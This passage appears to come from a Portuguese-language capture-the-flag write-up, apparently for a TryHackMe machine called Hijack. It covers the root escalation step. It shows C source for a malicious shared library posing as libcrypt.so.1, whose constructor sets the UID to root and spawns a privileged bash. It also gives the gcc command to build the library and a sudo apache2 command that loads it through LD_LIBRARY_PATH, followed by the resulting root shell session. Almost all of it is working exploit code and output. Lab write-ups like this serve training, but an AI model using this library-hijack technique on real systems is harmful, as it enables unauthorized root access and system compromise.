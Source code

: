 Apache depende de `libcrypt.so.1`.  

```bash
ldd /usr/sbin/apache2
```

Dependência: `libcrypt.so.1`.

Criei biblioteca maliciosa:

$ cd /tmp
$ 
$ pwd
/tmp
$ 
$ nano malware.c
$ cat malware.c
  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


// Executa ao carregar a lib automático

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH"); // limpa variável
    setresuid(0,0,0);            // força UID/ GID = root
    system("/bin/bash -p");      // abre shell como priv root
}
```

Compilação:

```bash
gcc -shared -fPIC malware.c -o /tmp/libcrypt.so.1
```

Execução:

```bash
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

Root shell obtida ✅

---

## 👑 Flag Root

```bash
$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
[sudo] password for rick: 
/usr/sbin/apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0)
root@Hijack:/tmp# 
root@Hijack:/tmp# cd ..
root@Hijack:/# ls
bin   etc	  initrd.img.old  lost+found  opt   run   srv  usr	vmlinuz.old
boot  home	  lib		  media       proc  sbin  sys  var
dev   initrd.img  lib64		  mnt	      root  snap  tmp  vmlinuz
root@Hijack:/# 
root@Hijack:/# cd /root/
root@Hijack:/root# ls
root.txt
root@Hijack:/root# cat root.txt
THM{***********************}
```